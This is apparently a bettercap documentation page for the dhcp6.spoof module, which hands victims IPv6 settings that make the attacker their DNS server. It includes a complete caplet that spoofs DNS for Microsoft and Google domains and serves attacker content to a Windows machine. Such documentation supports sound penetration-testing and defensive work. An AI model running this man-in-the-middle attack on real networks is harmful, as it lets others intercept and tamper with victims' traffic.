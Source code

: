 ```yaml
---
title: "dhcp6.spoof"
date: 2019-02-25T13:02:36+01:00
draft: false
weight: 3
---
```


Replies to DHCPv6 messages, providing victims with a link-local IPv6 address and setting the attacker host as default DNS server (as described [here](https://github.com/fox-it/mitm6/)), must be used together with the [dns.spoof](https://github.com/bettercap/bettercap/wiki/dns.spoof) module.

**Commands**

| command | description |
|---------|-------------|
| `dhcp6.spoof on` | Start the DHCPv6 spoofer in the background. |
| `dhcp6.spoof off` | Stop the DHCPv6 spoofer in the background. |

**Parameters**

| parameter | default | description |
|-----------|---------|-------------|
| `dhcp6.spoof.domains` | `microsoft.com, goole.com, facebook.com, apple.com, twitter.com` | Comma separated values of domain names to spoof. | 

**Examples**

The following is the [mitm6.cap](https://github.com/bettercap/caplets/blob/master/mitm6.cap) caplet performing the full DHCPv6 attack versus a Windows 10 machine which is booting:

```sh
# let's spoof Microsoft and Google ^_^
set dns.spoof.domains microsoft.com, google.com
set dhcp6.spoof.domains microsoft.com, google.com

# every request http request to the spoofed hosts will come to us
# let's give em some contents
set http.server.path caplets/www

# serve files
http.server on
# redirect DNS request by spoofing DHCPv6 packets
dhcp6.spoof on
# send spoofed DNS replies ^_^
dns.spoof on

# set a custom prompt for ipv6
set $ {by}{fw}{cidr} {fb}> {env.iface.ipv6} {reset} {bold}» {reset}
# clear the events buffer and the screen
events.clear
clear
```

